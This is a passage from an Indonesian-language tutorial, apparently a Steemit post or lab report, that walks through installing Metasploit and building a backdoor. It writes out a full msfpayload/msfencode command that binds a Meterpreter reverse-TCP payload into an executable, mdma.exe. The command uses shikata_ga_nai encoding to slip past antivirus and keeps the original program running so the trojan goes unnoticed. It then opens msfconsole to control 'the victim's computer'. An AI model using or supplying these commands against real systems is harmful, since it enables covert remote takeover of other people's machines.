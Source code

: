 ### 3.3 Cara Percobaan

Jika belum memiliki metasploit maka install dengan command “apt-get install metasploit apache2”. Karena metasploit versi 4.5 maka harus diinstall via web, oleh karena itu diperlukan apache. Lalu buka browser dan buka [https://localhost:3790](https://localhost:3790). Dapatkan lisensinya dan upadate diterminal dengan command “msfupdate”. Jika benar maka akan ada folder /opt/metasploit.

![Gambar 3.1 Install metasploit.jpeg](https://cdn.steemitimages.com/DQmfFmMUUdjoCPMwmTr3BKHs7faSnHgqQ4SoMg5ynw3U16w/Gambar%203.1%20Install%20metasploit.jpeg)

Gambar 3.1 Install metasploit



Untuk melihat jenis payload yang disediakan metasploit maka gunakan “msfpayload -l”. Yang akan digunakan adalah windows/meterpreter/reverse_tcp.

![Gambar 3.2 Melihat payload yang disediakan metasploit 1.jpeg](https://cdn.steemitimages.com/DQmQt9GBWAo3Mbfz7tq5wrxJQdwzk7SqNL5aqickVXu3oZV/Gambar%203.2%20Melihat%20payload%20yang%20disediakan%20metasploit%201.jpeg)

Gambar 3.2 Melihat payload yang disediakan metasploit 1

![Gambar 3.3 Melihat payload yang disediakan metasploit 2.jpeg](https://cdn.steemitimages.com/DQmUMk9yGPGo231nGzMeeJWQSk8EZqVA8czC4cJYaoNivNy/Gambar%203.3%20Melihat%20payload%20yang%20disediakan%20metasploit%202.jpeg)

Gambar 3.3 Melihat payload yang disediakan metasploit 2



Lihat lah IP address pada perangkat jaringan yang ingin di koneksikan dengan perintah “ifconfig”. Disini IP address adalah 192.168.0.1.

![Gambar 3.4 Melihat IP address perangkat jaringan.jpeg](https://cdn.steemitimages.com/DQmfGeoieKw3ak2gS7YTRY4m4y4Z4iusS1RBaVC5VX4vNy9/Gambar%203.4%20Melihat%20IP%20address%20perangkat%20jaringan.jpeg)

Gambar 3.4 Melihat IP address perangkat jaringan



Disini file yang akan dilampirkan payload adalah mdma.exe yang terlekatk di /root. Maka perintahnya adalah “msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=443 R | msfencode -e x86/shikata_ga_nai -c 5 -t exe -x /root/mdma.exe -k -o /root/mdma1.exe”. LHOST merupakan listening host yaitu IP address pada perangkat jaringan ini. LPORT merupakan listening port tergantung selera. Berkat msfencode dan shikata_ga_nai maka pelampiran trojan memungkinkan. -e menentukan format yaitu x86, -c menentukan jumlah iterasi, -t memilih extensi file, -x dengan menentukan lokasi file, -k adalah agar payload bekerja pada task lain dengan program aslinya masih tetap bisa berjalan, dan -o adalah tempat dan nama file baru.

![Gambar 3.5 Membuat backdoor.jpeg](https://cdn.steemitimages.com/DQmfGVQeh1iqtFHoxBpFxDaV3o7cGGa8ytwLWauHcBPDEHz/Gambar%203.5%20Membuat%20backdoor.jpeg)

Gambar 3.5 Membuat backdoor



Siapkan msfconsole untuk mengendalikan komputer korban. Ketik “-help” jika belum terbiasa pada perintah. Tersedia fasilitas perintah “search [kata apa="" saja=""]” untuk melihat perintah yang berkaitan dengan apa yang diketik.

![Gambar 3.6 Msfconsole.jpeg](https://cdn.steemitimages.com/DQmYWsyKDhiQhURpB3JYMzsYStxwmZ5CyG1B7j7PRdiH7we/Gambar%203.6%20Msfconsole.jpeg)

Gambar 3.6 Msfconsole
